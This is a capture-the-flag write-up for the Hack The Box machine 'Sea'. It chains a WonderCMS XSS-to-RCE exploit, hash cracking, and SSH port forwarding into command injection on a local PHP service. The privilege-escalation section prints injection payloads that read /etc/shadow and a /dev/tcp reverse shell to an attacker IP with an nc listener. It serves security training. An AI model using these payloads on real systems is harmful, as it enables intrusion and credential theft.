# Description
Sea is a Linux-based machine that requires exploiting multiple vulnerabilities to achieve root access.

For the initial foothold, I identified a vulnerability in Wonder CMS, specifically a Cross-Site Scripting (XSS) attack vector. Using XSS, I performed cookie stealing and session token theft to bypass restrictions, gaining administrative access. This allowed me to install a malicious module, resulting in Remote Code Execution (RCE) on the system.

To escalate privileges, I exploited a locally running service inaccessible from external networks. Using port forwarding, I accessed a web application under development, which revealed a command injection vulnerability. Leveraging this flaw, I successfully escalated privileges and achieved root access to the machine.

# Port Scanning
Using `Rustscan`, I discovered that two TCP ports were open on the target system. This initial port scan provided valuable insight into the services potentially running on the system and helped guide the subsequent penetration testing efforts.

```bash
rustscan -a 10.10.11.28 --ulimit 5000  -t 3000 -- -sV -sC

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa 
...
| ecdsa-sha2-nistp256 
...
|_ssh-ed25519 
...

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Here we have ports 22 for ssh and 80 for a web server.I prioritized starting the investigation with the HTTP protocol on port 80. Focusing on this port allowed for an initial assessment of the web services and applications running on the system, which subsequently guided further exploration and testing of other identified ports.

# Web Enumeration
## Exploring the service
I explored the service using my browser and discovered that it was relatively simple. The service featured a basic home page and another page with a form designed for registering participants in competitions.  



## Directory fuzzing
I decided to perform directory fuzzing in the background as i search for an exploit, using `Feroxbuster`, a powerful tool for discovering hidden directories and files on a web server. By running this tool, I was able to systematically probe the server for directories that might not be immediately visible or accessible through standard navigation. This approach helped uncover additional endpoints or resources that could potentially contain vulnerabilities or sensitive information, providing a more comprehensive understanding of the web application's structure and security posture.

```bash
feroxbuster -u http://sea.htb/ -C 404,500
```
  
The results from `Feroxbuster` raised a suspicion that the target might be a CMS, given the
presence of directories such as `plugins`, `themes`, and `data`.From the source code we can recall the theme being used.

Found it challenging to identify the CMS. After researching numerous sites and repositories, I finally found the [exact](https://github.com/robiso/bike) one.


While exploring the target, I came across a form for competition registration.


The website input field immediately caught my attention. This field seemed potentially vulnerable, as it could be a point of entry for various types of attacks, such as `Server Side Request Forgery(SSRF)`, `Cross-Site Scripting (XSS)`, or even `Remote Code Execution (RCE)` if not properly validated and sanitized.

## Searching exploits
After conducting some reconnaissance, I discovered that the CMS is vulnerable to Cross-Site Scripting (XSS). In addition, I found a public exploit indicating that WonderCMS is susceptible to XSS, which can be leveraged to achieve Remote Code Execution (RCE). The exploit can be found [here](https://github.com/0xDTC/WonderCMS-4.3.2-XSS-to-RCE-Exploits-CVE-2023-41425).
# Exploitation

Here is the workflow of the exploit:
1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.



The exploit runs like a charm :) and now we have shell.Upon doing some enumeration i get this:

Lets save the hash in a file `hash.txt` then use john to crack the hash.

To fix the errors we remove the back slashes and try again.

```
username : amay
password : mychemicalromance
```

Now we can easily log in to ssh as `amay`
```bash
ssh amay@10.10.11.28
```


# Privilege Escalation
To acquire super user privileges we stumble around with some commands untill we land on this `netstat -tuln` 
  
we use this command to detect potentially interesting services or custom applications running on the machine.


To access the service running on this port `8080` , let's do some port forwarding.

## Port forwarding
For this we shall use SSH Tunneling that will forwards traffic from the target machine through the SSH server to our attacker machine.
```bash
ssh -L 8090:127.0.0.1:8080 amay@10.10.11.28
```

Scanning the port with `nmap` 
```bash
nmap -sC -sV -vv -p8090 127.0.0.1

.....
PORT     STATE SERVICE REASON         VERSION
8090/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.23)
| http-auth: 
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Restricted Area
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).

```

## Service Enumeration
The service is a PHP-based application running on a built-in PHP CLI server, possibly for testing or lightweight development purposes.Let's access it using our browser.
  
With a simple password reuse we bypass the authentication.
  
The service seems to be running some shell commands, thus possibility of  command injection.To exploit this will intercept the request using burp suite.


## Service Exploitation
From the original request we can see that the commands are url encoded thus lets craft our payload in the same way.
```

%2Fetc%2Fpasswd
%2Fetc%2Fshadow

```



After  encoding the payload,the script runs perfectly and we can read both the `/etc/passwd` and the `/etc/shadow` this also confirms that the commands are run as root.To the the root shell we make use of a reverse bash script.

```bash
# the script
;bash -c "sh -i >& /dev/tcp/10.10.16.58/1234 0>&1"

# url encoded
%3bbash+-c+"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.58%2F1234%200%3E%261"||cat

# listener
nc -nlvp 1234
```



